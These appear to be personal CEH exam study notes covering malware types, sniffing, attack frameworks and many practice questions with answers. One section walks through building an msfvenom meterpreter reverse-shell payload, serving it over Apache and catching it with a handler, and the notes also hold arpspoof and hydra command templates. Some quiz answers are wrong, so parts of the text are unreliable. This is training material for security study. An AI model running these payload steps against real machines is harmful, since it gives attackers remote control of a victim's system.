

# TOC
1. [Tool List](#toollist)
2. [Malware](#malware)

# PORTS

LDAP: 389
LDAPS: 636

# TOOL LIST 

## Footpringint and Recon

1. http://mattw.io/ (For scrubbing YT metadata, thumbnail reverse image search etc)
2. Google Hacking 
3. https://www.searchftps.net/ (FTP Indexer)
4. https://www.shodan.io/ (Search engine for IoT devices)
5. https://search.censys.io/ (Identifying target OS, used in conjunction with Shodan)
6. https://sitereport.netcraft.com/ (Website infrastructure search)
7. Sherlock (For social media profiles, but I found it more useful for parsing for usernames)
8. theHarvester 
9. https://www.peekyou.com/ (People search engine. Limited to American states. Capable of identifying addresses, arrests etc)

    
    

# FOOTPRINTING AND RECON

**Note that there should not be a space between the operator and the term** 
    
    Example: site:google.com intitle:test

Refer to https://www.googleguide.com/advanced_operators_reference.html

# ATTACK FRAMEWORKS

## 1. Cyber Kill Chain: 
    Reconnaissance
    Weaponisation
    Delivery
    Exploitation
    Installation
    Command and Control
    Actions on Objectives

## 2. MITRE ATT&CK FRAMEWORK
### PRE-ATT&CK Techniques:
    Recon
    Weaponize
### Enterprise ATT&CK Techniques:
    Deliver
    Exploit
    Control
    Execute
    Maintain

## 3. Diamond Model
### Essential Features
    Adversary
    Capability
    Victim
    Infrastructure

### Meta-Features
    1. Timestamp
    2. Phase
    3. Result
    4. Direction:
        Direction of attack eg. how adversary was routed to victim

    5. Methodology: 
        Technique use dby adversary/overall class of action eg. Phishing, DDoS, drive-by etc
    6. Resource: 
        Tools or tech used for the attack

#### Host-Based Indicators: 
Host-based indicators are found by performing an analysis of the infected system within the organizational network. Examples of host-based indicators include filenames, file hashes, registry keys, DLLs, and mutex

#### Behavioral Indicators: 
Behavioral IoCs are used to identify specific behavior related to malicious activities such as code injection into the memory or running an application's scripts. Well-defined behaviors enable broad protection to block all current and future malicious activities

# MODULE 7: MALWARE

## Techniques used to distribute malware
    Increasingly popular method is Search Engine Optimization (SEO): This is where attackers ensure their page comes out on top of search results

## Trojan Components

**Crypter**: *Software that protects against reverse engineering* 

**Downloader**: *Trojan that download other malware onto host*

**Dropper**: *Trojan that **covertly installs** other malware in system*

**Wrapper**: *Binds Trojan executable with genuine looking EXE*

**Exploit**: *Exploit.**The exploit carries the payload***

**Injector**: *Program that injects exploits or malicious code in malware into other vulnerable running processes and changes method of execution to hide or prevent removal*

**Obfuscator**: *Program that conceals malicious code of malware*

**Packer**: *Software that compresses malware file to convert code and data into unreadable format*

**Payload**: *Payload. The item which actually does the damage. **The exploit carries the payload***

**Malicious Code**: *Fundamental code that defines basic functionality of malware. May take form of Java Applets, ActiveX Controls, Browser Plugins etc*

### Common Trojan Port Numbers

### Trojan Tools

**IExpress Wizard**: It is a wrapper tool that guides the user to create a self-extracting package that can automatically install the embedded setup files, Trojans, etc.

**Emotet**: It is a dropper/downloader for well-known banking Trojans such as Zeus Panda banker, Trickbot, and Iced ID to infect victims globally

**Godzilla**: It is a downloader that can be used for deploying malware on the target machine

**BitCrypter**: Used to employ crypter and can be used to encrypt and compress 32-bit executables and .NET apps without affecting their direct functionality

### Types of Trojans

> **Point-of-Sale Trojans**: It is a type of financial fraudulent malware that target POS and payment equipment such as credit card/debit card readers. Attackers use POS Trojans to compromise such POS equipment and grab sensitive information regarding credit cards, such as credit card number, holder name, and CVV number.

> **Defacement Trojans**: Defacement Trojans, once spread over the system, can destroy or change the entire content of a database. However, they are more dangerous when attackers target websites, as they physically change the underlying HTML format, resulting in the modification of content. In addition, significant losses may be incurred due to the defacement of e-business targets by Trojans.

> **E-banking Trojans**: E-banking Trojans are extremely dangerous and have emerged as a significant threat to online banking. They intercept the victim's account information before the system can encrypt it and send it to the attacker's command-and-control center.

> **HTTP/HTTPS Trojans**: HTTP/HTTPS Trojans can bypass any firewall and work in reverse, as opposed to a straight HTTP tunnel. They use web-based interfaces and port 80. The execution of these Trojans takes place on the internal host and spawns a child program at a predetermined time. 

> **TAN Grabber**: A Transaction Authentication Number (TAN) is a single-use password for authenticating online banking transactions. Banking Trojans intercept valid TANs entered by users and replace them with random numbers. The bank will reject such invalid random numbers. Subsequently, the attacker misuses the intercepted TAN with the target’s login details.

> **Form Grabber**: A form grabber is a type of malware that captures a target’s sensitive data such as IDs and passwords, from a web browser form or page. It is an advanced method for collecting the target’s Internet banking information. It analyses POST requests and responses to the victim's browser. It compromises the scramble pad authentication and intercepts the scramble pad input as the user enters his/her Customer Number and Personal Access Code

> **Covert Credential** Grabber: This type of malware remains dormant until the user performs an online financial transaction. It works covertly to replicate itself on the computer and edits the registry entries each time the computer is started. The Trojan also searches the cookie files that had been stored on the computer while browsing financial websites. Once the user attempts to make an online transaction, the Trojan covertly steals the login credentials and transmits them to the hacker.

> **Backdoor Trojans**: A backdoor is a program which can bypass the standard system authentication or conventional system mechanism like IDS, firewalls, etc. without being detected. In these types of breaches, hackers leverage backdoor programs to access the victim’s computer or a network. The difference between this type of malware and other types of malware is that the installation of the backdoor is performed without the user’s knowledge. This allows the attack to perform any activity on the infected computer which can include transferring, modifying, corrupting files, installing malicious software, rebooting the machine, etc. without user detection

> **Covert Channel Trojans**: Covert Channel Tunneling Tool (CCTT) Trojan presents various exploitation techniques, creating arbitrary data transfer channels in the data streams authorized by a network access control system. It enables attackers to get an external server shell from within the internal network and vice-versa. It sets a TCP/UDP/HTTP CONNECT|POST channel allowing TCP data streams (SSH, SMTP, POP, etc.) between an external server and a box from within the internal network.

## Viruses

### Stages of Virus Lifecycle

### Types of Viruses

    Metamorphic viruses are more effective than polymorphic viruses. 
    
    Polymorphic viruses modify their code for each replication to avoid detection.

    Metamorphic viruses are programmed to rewrite themselves completely each time they reinfect a file.
---

## Fileless Malware

Malware that resides in RAM, and **executes in RAM**. Leaves no trace/detection method. Infects legitimate software and appplications via vulnerabilities.

> Type 1: EG. Receiving malicious packets that exploits vulnerability which automatically installs backdoor.

> Type 2: EG. Injecting malicious PS command into WMI repo to configure filter

> Type 3: Exploiting documents with embedded macro, or EXE files to inject malicious payloads into host

**LemonDuck**: LemonDuck is Python-based fileless malware that spreads infections over Microsoft exchange servers and enterprise-level Linux machines worldwide. It removes other malware from the target system and uses cryptojacking abilities to hide and stay intact even after security patches are applied. Both LemonDuck and LemonCat infect the target machine to subvert security controls, steal cryptocurrency accounts, maintain persistence, and make lateral movements.
## Dialers

Dialers or spyware dialers are programs that get installed and configured in a system automatically to call a set of contacts at several locations without the user’s consent.

## Ransomware

**BackMatter**: BlackMatter is dangerous ransomware written in C. This ransomware uses encryption keys such as RSA public and AES keys for initializing and implementing Salsa20 encryption on the targeted files. Using this malware, attackers can also gain control over domain controllers, ACLs, and other user access controls (UACs).

# Advanced Persistent Threats (APT)

Generally in the system for long periods of time. Plenty of other characteristics; refer to diagram.

## **APT Lifecycle**: Preparation, Initial Intrusion, Expansion, Persistence, Search & Exfiltration, Cleanup

# SYSTEM HACKING
Writing of payloads with MSFVenom. LHOST is host (attacker) machine.
**REMEMBER TO CHANGE PERMISSIONS WITH CHOWN/CHMOD FOR ALL FILES, EVEN APACHE**

    
    msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe

Creating of *share* folder of Apache directory.

    /var/www/html/share

Changing of permissions for the share folder.

     chown -R www-data:www-data /var/www/html/share

Copy over the payload into the *share* folder

Starting of Apache Server.

    service apache2 start

Enabling listener via msfconsole, use handler exploit.

     use exploit/multi/handler

Set the correct payload since default payload may not be correct. In this case, it is setting payload to *reverse_tcp*. 

    set payload windows/meterpreter/reverse_tcp

Check and set *options* such as LHOST, LPORT etc. Start exploit after to start listener.

Access LHOST IP/Port in victim machine and download the payload, and execute to connect to listener.

# SNIFFING

Two basic types of Ethernet environments (TARGETS DATALINK LAYER, AND RESULTS IN ALL LAYERS ABOVE BEING COMPROMISED):

1. **Shared Ethernet**

    Single bus that connects all the hosts that competes for bandwidth.
    **A form of passive sniffing, and difficult to detect.**

2. **Switched Ethernet**

    Hosts connect with a switch and has to utilise the ARP table to correlate IP addresses with the MAC addresses. More secure than hub, but also possible to be sniffed. Requires **Active sniffing**.

## Active Sniffing Techniques

The objective of active sniffing is to **inject ARP packets** into the network to flood the switch's Content Addressable Memory (CAM) table. **This table correlates MAC addresses to the Port on the switch.**

**General Sniffing Tools**: Wireshark, OmniPeek 

> Vulnerable Protocols to sniffing (Data sent in plaintext): 
    Telnet & Rlogin
    IMAP
    HTTP
    SMTP & NNTP
    POP
    FTP

### Mac Flooding

- Turning a switch into a hub by flooding the switch's CAM table with ARP responses, until it enters fail-safe mode and acts as a hub.

- Attacker then just has to change their machine's NIC mode to promiscuous to accept all traffic entering it.

### DHCP Attacks

- **Starvation attack** a DOS attack where flooding of router with DHCP requests, until it runs out of IP addresses to assign. 

- **Rogue DHCP Server attack**  Rogue DHCP server to assign attacker-controlled IP addresses.

### DNS Poisoning
**Tools**: DerpNSpoof, Ettercap, Evilgrade

### Switch Port Stealing

- Essentially using MAC flooding to ensure that the attacker spoofs their IP and MAC addresses, and ensures that the switch port is reassigned to the attacker, so all data meant for victim is routed to attacker.

### ARP Poisoning
**Tools**: arpspoof, habu, Ettercap, BetterCAP, dsniff, MITMf, Arpoison
    
    arpspoof -i [Interface] -t [Target Host]

**Defending against it**:
1. Implementation of Dynamic ARP Inspection (DAI). Firstly need to enalbe DHCP snooping for Cisco switches.

        ip dhcp snooping

### Spoofing Attack

Spoofing include ARP spoofing, MAC spoofing, ICMP Router Discovery Protocol (IRDP) spoofing, VLAN hopping, Spanning Tree Procol (STP) attacks.
    

## DDoS Categories

### Volumetric Attacks
> UDP Flood, ICMP, Ping of Death, Smurf

> Bits/s

### Protocol Attacks
> SYN flood, fragmentation attack

> Packets/s

### Application Layer Attacks
> Requests/s

# WEB SERVER ATTACK

## TOOLS
1. Skipfish

Skipfish is an active web application security reconnaissance tool. It prepares an interactive sitemap for the targeted site by carrying out a recursive crawl and dictionary-based probes. The resulting map is then annotated with the output from a number of active (but hopefully non-disruptive) security checks. The final report generated by the tool is meant to serve as a foundation for professional web application security assessments.

    skipfish -o [output folder path] -S /usr/share/skipfish/dictionaries/complete.wl [Target address]

Open index.html in the output folder in Firefox.

2. Ghosteye

Python3 program for web server recon.

    python3 ghosteye.py

3. Hydra

Password cracker

    hydra -L [username wordlist] -P [password wordlist] [host. eg. ftp://10.10.1.11]

# Udemy

How works the mechanism of a Boot Sector Virus?

> Copies itself to original location of MBR. MOves MBR to another location on hard disk

What type of firewall checks outbound traffic?

> Application Firewall

According to the Payment Card Industry Data Security Standard, when is it necessary to conduct external and internal penetration testing?

> At least once a year and after any significant upgrade or modification

Which type of viruses tries to hide from antivirus programs by actively changing and corrupting the chosen service call interruptions when they are being run?

> Stealth/Tunneling virus (CEH options might provide "Tunneling virus" as an option, but pick Stealth/Tunneling)

Assume the EF = 1 (100%), calculate the SLE, ARO, and ALE.

> 1. AV (Asset value) = $300 + (14 * $10) = $440 - the cost of a hard drive plus the work of a recovery person, i.e.how much would it take to replace 1 asset? 10 hours for resorting the OS and soft + 4 hours for DB restore multiplies by hourly rate of the recovery person.

    2. SLE (Single Loss Expectancy) = AV * EF (Exposure Factor) = $440 * 1 = $440

    3. ARO (Annual rate of occurrence) = 1/3 (every three years, meaning the probability of occurring during 1 years is 1/3)

    4. ALE (Annual Loss Expectancy) = SLE * ARO = 0.33 * $440 = $145.2

Identify a vulnerability in OpenSSL that allows stealing the information protected under normal conditions by the SSL/TLS encryption used to secure the Internet?

> Heartbleed Bug

Which of the following tiers in the three-tier application architecture is responsible for moving and processing data between them?

> Logic Tier

    Three-tier architecture is a well-established software application architecture that organizes applications into three logical and physical computing tiers: the presentation tier, or user interface; the application tier (logic tier), where data is processed; and the data tier, where the data associated with the application is stored and managed.

Matthew successfully hacked the server and got root privileges. Now he wants to pivot and stealthy transit the traffic over the network, avoiding the IDS.

Which of the following will be the best solution for Matthew?

> Cryptcat

Which of the following SQLi types leverages a database server’s ability to make DNS requests to pass data to an attacker?

> Out-of-band SQL injection

    Out-of-band SQLi techniques would rely on the database server’s ability to make DNS or HTTP requests to deliver data to an attacker. Such is the case with Microsoft SQL Server’s xp_dirtree command, which can be used to make DNS requests to a server an attacker controls; as well as Oracle Database’s UTL_HTTP package, which can be used to send HTTP requests from SQL and PL/SQL to a server an attacker controls.

    In-band SQL injection is the most common and easy-to-exploit of SQL injection attacks. In-band SQL injection occurs when an attacker is able to use the same communication channel to both launch the attack and gather results.

You have detected an abnormally large amount of traffic coming from local computers at night. You decide to find out the reason, do a few checks and find that an attacker has exfiltrated user data. Also, you noticed that AV tools could not find any malicious software, and the IDS/IPS has not reported on any non-whitelisted programs.

Which of the following type of malware did the attacker use to bypass your company’s application whitelisting?

> Fileless Malware

    Fileless malware is a type of malicious software that uses legitimate programs to infect a computer. It does not rely on files and leaves no footprint, making it challenging to detect and remove. Modern adversaries know the strategies organizations use to try to block their attacks, and they’re crafting increasingly sophisticated, targeted malware to evade defenses. It’s a race against time, as the most effective hacking techniques are usually the newest ones. Fileless malware has been effective in evading all but the most sophisticated security solutions.

    Fileless attacks fall into the broader category of low-observable characteristics (LOC) attacks, a type of stealth attack that evades detection by most security solutions and frustrates forensic analysis efforts. While not considered a traditional virus, fileless malware does work in a similar way—it operates in memory. Without being stored in a file or installed directly on a machine, fileless infections go straight into memory, and the malicious content never touches the hard drive. Many LOC attacks take advantage of Microsoft Windows PowerShell, a legitimate and useful tool used by administrators for task automation and configuration management. PowerShell consists of a command-line shell and associated scripting language, providing adversaries with access to just about everything and anything in Windows.

Which of the following tools can an attacker use to gather information from the LDAP service?

> JXplorer

Which of the following files determines the basic configuration in an Android application, such as broadcast receivers, services, etc.?

> AndroidManifest.xml

Which of the following AAA protocols can use for authentication users connecting via analog modems, Digital Subscriber Lines (DSL), wireless data services, and Virtual Private Networks (VPN) over a Frame Relay network?

> RADIUS

At which of the following tiers are your colleagues currently working according to the five-tier container technology architecture?

> Tier-1: Developer machines - image creation, testing and accreditation

    Tier-2: Testing and accreditation systems - verification and validation of image contents, signing images and sending them to the registries

    Tier-3: Registries - storing images and disseminating images to the orchestrators based on requests

    Tier-4: Orchestrators - transforming images into containers and deploying containers to hosts

    Tier-5: Hosts - operating and managing containers as instructed by the orchestrator

Which of the following NetBIOS codes is used for obtaining the messenger service running for the logged-in user?

> 3
    For unique names:

    · 00: Workstation Service (workstation name)

    · 03: Windows Messenger service

    · 06: Remote Access Service

    · 20: File Service (also called Host Record)

    · 21: Remote Access Service client

    · 1B: Domain Master Browser – Primary Domain Controller for a domain

    · 1D: Master Browser

    For group names:

    · 00: Workstation Service (workgroup/domain name)

    · 1C: Domain Controllers for a domain (group record with up to 25 IP addresses)

    · 1E: Browser Service Elections

 
You were instructed to check the configuration of the webserver and you found that the server permits SSLv2 connections, and the same private key certificate is used on a different server that allows SSLv2 connections. You understand that this vulnerability makes the web server vulnerable to attacks as the SSLv2 server can leak key information.

Which of the following attacks can an attacker perform using this vulnerability?

> DROWN Attack (Decrypting RSA with Obsolete and Weakened eNcryption)

What of the following is a file which is the rich target to discover the structure of a website during web-server footprinting?

> Robots.txt

    If qns asks for FOLDER, then it is Document Root

You need to transfer sensitive data of the organization between industrial systems securely. For these purposes, you have decided to use short-range wireless communication technology that meets the following requirements:

- Protocol based on the IEEE 203.15.4 standard;

- Range of 10-100 m.

- Designed for small-scale projects which need wireless connection.

Which of the following protocols will meet your requirements?

> Zigbee

Which of the following is a file on a web server that can be misconfigured and provide sensitive information for a hacker, such as verbose error messages?

> php.ini

Which of the following type of viruses avoid detection changing their own code, and then cipher itself multiple times as it replicates?

> Stealth
    Encryption virus is similar to ransomware

Your organization conducts a vulnerability assessment for mitigating threats. Your task is to scan the organization by building an inventory of the protocols found on the organization’s machines to detect which ports are attached to services such as a web server, an email server or a database server. After this, you will need to select the vulnerabilities on each machine and start executing only the relevant tests.

Which of the following type of vulnerability assessment solutions will you perform?

> Inference-based assessments.

    With inference-based assessment, the scanning process begins by gathering information based on discovery methods, including host identification, operating system detection and fingerprinting port scanning, and protocol detection. Information obtained through discovery enables the scanning engine to determine which ports are attached to services, such as Web servers, databases, and e-mail servers. After the intelligence-gathering phase, the scanning engine intelligently selects and runs appropriate vulnerability checks for the scan. Only vulnerabilities that could be present on each machine's configuration will be tested. Inference-based scanning is an expert systems approach that learns information about a system in the same fashion that a hacker would. Inference-based assessment systems integrate new knowledge as it is discovered. This knowledge is used to build intelligence on the machine in real-time and run precisely the tests that are likely to produce results. Therefore, this approach is more efficient, imposes less load on the machine, and maximizes vulnerability discovery while minimizing false positives and false negatives.

Identify the protocol used to secure an LDAP service against anonymous queries?

> NTLM

Which of the following is a cloud solution option where a customer can join with a group of users or organizations to share a cloud environment?

> Community Cloud

Which of the following is the firewall evasion scanning technique that uses a zombie system with low network activity?

> IDLE Scanning

    The idle scan is a TCP port scan method that consists of sending spoofed packets to a computer to find out what services are available. This is accomplished by impersonating another computer whose network traffic is very slow or nonexistent (that is, not transmitting or receiving information). This could be an idle computer, called a "zombie".

Default TTL values

> https://subinsb.com/default-device-ttl-values/

Which of the following vulnerabilities will you use if you know that the target network uses WPA3 encryption?

> DragonBlood
    KRACK is for WPA2
    DragonBlood for WPA3

You found that sensitive data, employee usernames, and passwords are shared in plaintext, paving the way for hackers to perform successful session hijacking.

Which of the following protocols, which can send data using encryption and digital certificates, will help solve this problem? 

> FTPS (Not HTTPS, idk why)

Recently your company set up a cloud computing service. Your system administrator reached out to a telecom company to provide Internet connectivity and transport services between the organization and the cloud service provider to implement this service.

Which category does the telecom company fall in the above scenario according to NIST cloud deployment reference architecture?

 > Cloud Carrier
    A carrier cloud is a class of cloud that integrates wide area networks (WAN) and other attributes of communications service providers’ carrier-grade networks to enable the deployment of highly demanding applications in the cloud. In contrast, classic cloud computing focuses on the data center, and does not address the network connecting data centers and cloud users. This may result in unpredictable response times and security issues when business-critical data are transferred over the Internet.

    Cloud Broker is an entity that manages the use, performance and delivery of cloud services, and negotiates relationships between cloud providers and cloud consumers. As cloud computing evolves, the integration of cloud services may be too complex for cloud consumers to manage alone.

    Cloud broker and its interactions with other parties

    In such cases, a cloud consumer may request cloud services from a cloud broker, instead of contacting a cloud provider directly," according to NIST Cloud Computing Reference Architecture.

John sent a TCP ACK segment to a known closed port on a firewall, but it didn't respond with an RST. What conclusion can John draw about the firewall he scanned?

> Stateful.
     TCP ACK segments use for gathering information about firewall or ACL configuration. This type of scan aims to discover information about filter configurations rather than a port state. This type of scanning is rarely useful alone, but when combined with SYN scanning, it gives a more complete picture of the type of present firewall rules. When a TCP ACK segment is sent to a closed port or sent out-of-sync to a listening port, the RFC 793 expected behavior is for the device to respond with an RST. Getting RSTs back in response to an ACK scan gives useful information that can be used to infer the type of firewall present. Stateful firewalls will discard out-of-sync ACK packets, leading to no response. When this occurs, the port is marked as filtered.

he attacker, during the attack, installed a scanner on a machine belonging to one of the employees of the target organization and scanned several machines on the same network to identify vulnerabilities to exploit further.

Which of the following type of vulnerability assessment tools employed the attacker?

> Agent based     

    Agent-based scanners reside on a single machine but can scan several devices on the same network.

    Network-based scanners interact only with the real machine where they reside and give the report to the same machine after scanning.

    Proxy scanners are network-based scanners that can scan networks from any machine on the network.

    Cluster scanners can simultaneously perform two or more scans on different devices in the network.

The attacker wants to attack the target organization's Internet-facing web server. In case of a successful attack, he will also get access to back-end servers protected by a firewall. The attacker plans to use URL https://mainurl.com/feed.php?url=externalsite.com/feed/to to obtain a remote feed and alter the URL to the localhost to view all the local resources on the target server.

Which of the following types of attacks is the attacker planning to perform?

> Server Side Forgery

Which of the following encryption algorithms is a symmetric key block cipher that has a 128-bit block size, and its key size can be up to 256 bits?

> Twofish

Which of the following types of MIB will your subordinate use to retrieve information about types for workstations and server services?

> LNMIB2.MIB
    LMMIB2.MIB - Contains object types for workstation and server services.

    DHCP.MIB - Microsoft-defined MIB that contains object types for monitoring the network traffic between remote hosts and DHCP servers.

    HOSTMIB.MIB - Contains object types for monitoring and managing host resources.

    MIB_II.MIB - Contains the Management Information Base (MIB-II), which provides a simple, workable architecture and system for managing TCP/IP-based internets.

    WINS.MIB - Microsoft-defined MIB for the Windows Internet Name Service (WINS).

Which of the following documents describes the specifics of the testing, the associated violations and essentially protects both the organization's interest and third-party penetration tester?

> Rules of Engagement 

Confidential information is stored and processed on your company's servers, however, auditing has never been enabled. What of the following should be done before enabling the audit feature?

> Determine impact of enabling audit feature

Attack Blackberry

> BBProxy (BB Attack Toolkit comprises BBPRoxy and BBSCan)

Sniffing via Switch (ACTIVE SNIFFING)
Sniffing via Hub (PASSIVE)

Which of the following is a vulnerability in modern processors such as Intel, AMD and ARM using speculative execution?

> Spectre and Meltdown

Alex works as a network administrator at ClassicUniversity. There are many Ethernet ports are available for professors and authorized visitors (but not for students) on the university campus.

However, Alex realized that some students connect their notebooks to the wired network to have Internet access.  He identified this when the IDS alerted for malware activities in the network.  What should Alex do to avoid this problem?

> Use 802.1x protocol

The ping utility is used to check the integrity and quality of connections in networks. In the process, it sends an ICMP Echo-Request and captures the incoming ICMP Echo-Reply, but quite often remote nodes block or ignore ICMP. Which of the options will solve this problem?

> use Hping

Identify a tool that can be used for passive OS fingerprinting?

> Tcpdump

Identify the type of partial breaks in which the attacker discovers a functionally equivalent algorithm for encryption and decryption, but without learning the key?

> Global deduction

    Instance (local) deduction — the attacker discovers additional plaintexts (or ciphertexts) not previously known.

    Information deduction — the attacker gains some Shannon information about plaintexts (or ciphertexts) not previously known.

    Total break — the attacker deduces the secret key.

SSL and TLS uses BOTH assymetric and symeetric

improper use can cause huge harm. Why do EC-Council experts recommend that security analysts monitor the disabling of unused ISAPI filters?

> Defend against webserver attacks

Types of Wireless Antennas

1. Directional Antenna
    Single direction

2. Omnidirectional Antenna

    360 degree

3. Parabolic Grid 

    Based on principle of satellite dish, can pick up signals 10 miles or more.

4. Yagi

    Unidirectional. Freq band of 10MHz to VHF and UHF

5. Dipole

    Bidrectional used to support client connections rather than site to site

6. Reflector

    Used to concentrate EM energy.

Types of vulnerability assessments

REFER TO PAGE 553

NBT stat flags

    Parameter 	Description
    /a <remotename> 	Displays the NetBIOS name table of a remote computer, where remotename is the NetBIOS computer name of the remote computer. The NetBIOS name table is the list of NetBIOS names that corresponds to NetBIOS applications running on that computer.
    /A <IPaddress> 	Displays the NetBIOS name table of a remote computer, specified by the IP address (in dotted decimal notation) of the remote computer.
    /c 	Displays the contents of the NetBIOS name cache, the table of NetBIOS names and their resolved IP addresses.
    /n 	Displays the NetBIOS name table of the local computer. The status of registered indicates that the name is registered either by broadcast or with a WINS server.
    /r 	Displays NetBIOS name resolution statistics.
    /R 	Purges the contents of the NetBIOS name cache and then reloads the pre-tagged entries from the Lmhosts file.
    /RR 	Releases and then refreshes NetBIOS names for the local computer that is registered with WINS servers.
    /s 	Displays NetBIOS client and server sessions, attempting to convert the destination IP address to a name.
    /S 	Displays NetBIOS client and server sessions, listing the remote computers by destination IP address only.
    <interval> 	Displays selected statistics, pausing the number of seconds specified in interval between each display. Press CTRL+C to stop displaying statistics. If this parameter is omitted, nbtstat prints the current configuration information only once.
    /? 	Displays help at the command prompt.

    
Android NFC attack

> tap n ghost

GHOSTWRITING

> Adding arbitary code without affecting functionality

Angler fishing

> Fake helpdesk/support links

COM hijacking

> Modifying windows registry to privilege escalate

Cracking BLE encryption tool

> Crackle

 
The GNU Radio tool makes use of external RF hardware to generate SDR. It offers a framework and the required tools to generate software radio signals. It also offers processing units for signals to implement software radios. Attackers use GNU Radio to perform various SDR-based attacks on target IoT devices. Before attacking the target device, attackers need to build and configure GNU Radio. After the successful installation of GNU Radio, attackers use the tools below to perform further exploitation. GNU Radio consists of a number of pre-defined programs and tools, which can be used for a variety of tasks. If it is installed from Python, the source files can be found in gr-utils/src/python and gr-uhd/apps. 
    • uhd_ft → A spectrum analyzer tool that can be connected to a UHD device to find the spectrum at a given frequency
    • uhd_rx_cfile → Stores wave samples with the help of a UHD device; samples can be stored in a file and analyzed later using GNU Radio or similar tools such as Matlab or Octave
    • uhd_rx_nogui → Used to obtain and listen to the incoming signals on the audio device
    • uhd_siggen_gui → Used to create simple signals such as sine, square, or noise • gr_plot → Used to present previously recorded samples saved in a file

Attackers perform GNSS spoofing using the following techniques. ▪ Interrupting the Lock Mechanism Attackers aim to discover a GNSS receiver’s new lock via a faulty signal. Attackers initiate this process by radiating a jamming signal inside the GNSS receiver, where the receiver requests for the next acquisition. Then, a signal simulator is used to generate a false signal, transmit it to the GNSS targeted receiver, and gain the new lock data of the receiver.
    ▪ Drag-off Strategy
    Attackers track the receiver’s position and identify the deviation from the original location to a fake one. Attackers initiate this technique by mirroring the original navigation signals, injecting a progressive misalignment between those signals, and forwarding them to the GNSS receiver. The drag-off strategy is an effective attack that protects attackers from detection by radar systems.
    ▪ Cancellation Methodology
    Attackers use dual signal transmission to cancel out individual spoofed signals by introducing false satellite data. The targeted signals are initially spoofed, where the latter is added with a false component that deceives the targeted GNSS receiver. This method is beneficial to the attacker in terms of extracting the code phase data but limited in terms of obtaining the amplitude matching and carrier phase.
    ▪ Meaconing Method
    Attackers aim to block and re-broadcast the original signals for masking the actual signal toward the targeted receiver. This attack is effective with mono-and multi-antenna meaconers that control multiple satellites and allows attackers to manipulate the original signal with false positioning data and delay timings. Attackers prefer this method when it is impossible for a spoofer to generate a spreading sequence.

PetitPotam Hijacking

> Involves forcing AD to initiate w attacker > NTLM hashes acquired

Components of a Web Server
    Document Root: Stores critical HTML files related to the web pages of a domain name that will be served in response to the requests
    Server Root: Stores server's configuration, error, executable, and log files

Web API Hacking methodlogy

> ▪ Identify the target ▪ Detect security standards ▪ Identify the attack surface ▪ Launch attacks
Module 

Operation Cloud Hopper was an extensive attack and theft of information in 2017 directed at MSPs in the United Kingdom (U.K.), United States (U.S.), Japan, Canada, Brazil, France, Switzerland, Norway, Finland, Sweden, South Africa, India, Thailand, South Korea and Australia. The group used MSP's as intermediaries to acquire assets and trade secrets from MSP-client engineering, industrial manufacturing, retail, energy, pharmaceuticals, telecommunications, and government agencies.

Comparing Approaches to Vulnerability Assessment There are four types of vulnerability assessment solutions: product-based solutions, service-based solutions, tree-based assessment, and inference-based assessment.
     ▪ Product-Based Solutions Product-based solutions are installed in the organization’s internal network. They are installed either on a private or non-routable space or in the Internet-addressable portion of an organization’s network. If they are installed on a private network (behind the firewall), they cannot always detect outside attacks. ▪ Service-Based Solutions

    Service-based solutions are offered by third parties, such as auditing or security consulting firms. Some solutions are hosted inside the network, while others are hosted outside the network. A drawback of this solution is that attackers can audit the network from the outside.

    In a tree-based assessment, the auditor selects different strategies for each machine or component of the information system. For example, the administrator selects a scanner for servers running Windows, databases, and web services but uses a different scanner for Linux servers. This approach relies on the administrator to provide a starting piece of intelligence, and then to start scanning continuously without incorporating any information found at the time of scanning.
    
    Inference-Based Assessment In an inference-based assessment, scanning starts by building an inventory of the protocols found on the machine. After finding a protocol, the scanning process starts to detect which ports are attached to services, such as an email server, web server, or database server. After finding services, it selects vulnerabilities on each machine and starts to execute only those relevant tests.

	

Which of the following is a mode of operation that includes EAP or RADIUS for centralized client authentication using multiple authentication methods, such as token cards, Kerberos, and certificates?

> WPA2 Enterprise

Null cipher

> Hiding in lots of useless text

Grille

> Using a grill as stencil

Jargon

> Gibberish only someone else will understand

Semagram

> Symbols

	

Which of the following firewalls works at the session layer of the OSI model or TCP layer of TCP/IP, forwards data between networks without verification, and blocks incoming packets from the host but allows traffic to pass through

> Circuit Level gateway firewall

MarioNet

> Persists even after browser closed

OLEID

> Malware analysis on MS office documents

DNS proxy poisoning

> Uses Trojan